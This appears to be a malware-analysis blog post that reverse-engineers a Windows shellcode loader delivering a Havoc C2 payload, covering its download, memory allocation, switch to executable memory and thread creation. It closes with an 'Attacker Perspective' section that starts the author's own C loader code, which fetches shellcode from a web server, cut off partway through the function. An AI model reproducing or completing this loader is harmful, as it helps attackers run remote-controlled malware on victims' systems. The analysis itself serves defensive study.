 Returning to the main function, we observe the URL used as a parameter in the function reading the file through the request.


The “call sub_140001000" initiates the function call. When the function is called, it returns to InternetOpenUrlW, and we follow this behavior in the debugger.

When InternetOpenUrlW is successfully called, it jumps to InternetCloseHandle and then to LocalAlloc, using “test rax, rax” to set the ZF flag for the jump to occur. This routine continues until returning to the main function.

Next, we analyze the usage of the VirtualAlloc API, passing 0x04 for flProtect (indicating PAGE_READWRITE) and 0x3000 for flAllocationType (equivalent to 1000 MEM_COMMIT + 2000 MEM_RESERVE). dwSize represents the size of the memory space, and lpAddress is the optional starting address, passed as NULL through “xor ecx, ecx.”
The crucial point here is the return of VirtualAlloc, providing the address where the memory was allocated. In this case, VirtualAlloc returns “0x00000247B9310000.” Currently, it is in the following state:

Next, we see that memcpy and memset are used to copy the payload to the allocated memory address. memcpy takes the allocated address (“lpAddress”), the address size (“dwSize”), and the variable “var_30” containing the bytecodes from the function we named “GetBytesFromUrl.” The subsequent memset clears the memory area of “var_30.”

Now, we can check the allocated memory address and then save it as a binary file for analysis. Starting with VirusTotal, it reveals the origin of the shellcode as the command and control (C2) called Havoc.


The next step involves the use of the VirtualProtect API, which changes the memory protection at a given address. flNewProtect parameter is set as 0x40, equivalent to PAGE_EXECUTE_READWRITE, which is suspicious, as it was initially allocated as READWRITE and later changed to EXECUTE. dwSize represents the size in bytes of the memory to have its protection changed, and lpAddress is the initial address.

Subsequently, an attempt to create a thread with the allocated memory occurs, with the thread’s handle passed to WaitForSingleObject, keeping the thread running indefinitely.

# Attacker Perspective
He makes a request to a web server, reading a file that contains the Shellcode for a command and control (C2). In this case, I am using Havoc. Then, we allocate memory, change the memory permissions, and create a thread with the allocated memory. Below, I will provide a more detailed overview of the steps:
1 — Function to retrieve the shellcode from a web server using Wininet.dll. It takes a URL as a parameter and returns the shellcode bytes along with its size.

```c
BOOL GetPayloadFromUrl(LPCWSTR szUrl, PBYTE* pPayloadBytes, SIZE_T* sPayloadSize) {

	BOOL bSTATE = TRUE;

	HINTERNET hInternet     = NULL,
	HINTERNET hInternetFile = NULL;

	DWORD dwBytesRead = NULL;

	SIZE_T  sSize             = NULL;
	PBYTE  pBytes            = NULL,
		pTmpBytes          = NULL;



	hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);
	if (hInternet == NULL){
	printf("[!] InternetOpenW Failed With Error : %d \n", GetLastError());
	bSTATE = FALSE; goto _EndOfFunction;
	}
```